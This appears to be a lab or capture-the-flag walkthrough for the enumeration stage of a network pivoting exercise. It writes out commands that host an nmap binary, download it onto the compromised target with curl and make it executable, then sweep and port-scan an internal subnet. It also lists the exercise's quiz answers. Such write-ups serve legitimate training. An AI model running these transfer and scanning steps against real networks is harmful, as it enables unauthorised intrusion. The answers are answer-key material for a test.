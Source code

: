 * * * 

## Git Server - Enumeration

We now have the task of putting what we have learned so far to the test.

Download the [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true). With the nmap binary download and changed we can upload to the target.

1. `python3 -m http.server 80`
2. `curl ip/nmap-0xskar -o /tmp/nmap-0xskar && chmod +x /tmp/nmap-0xskar`

**Answer the questions below**

**Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?**

- `./nmap-0xskar -sn 10.200.105.1-255 -oN scan-0xskar` - 2 hosts

**In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)**

- `100,150`

**Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?**

- 10.200.105.100 - no ports/filtered
- 10.200.105.150 

```
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 128
3389/tcp open  ms-wbt-server syn-ack ttl 128
5985/tcp open  wsman         syn-ack ttl 128
MAC Address: 02:8B:F9:9A:4E:61 (Unknown)
```

**Let's assume that the other host is inaccessible from our current position in the network. Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?**

- `80,3389,5985`

We cannot currently perform a service detection scan on the target without first setting up a proxy, so for the time being, let's assume that the services Nmap has identified based on their port number are accurate. (Please feel free to experiment with other scan types through a proxy after completing the pivoting section).

**Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?**

- `http`

Now that we have an idea about the other hosts on the network, we can start looking at some of the tools and techniques we could use to access them!

* * * 
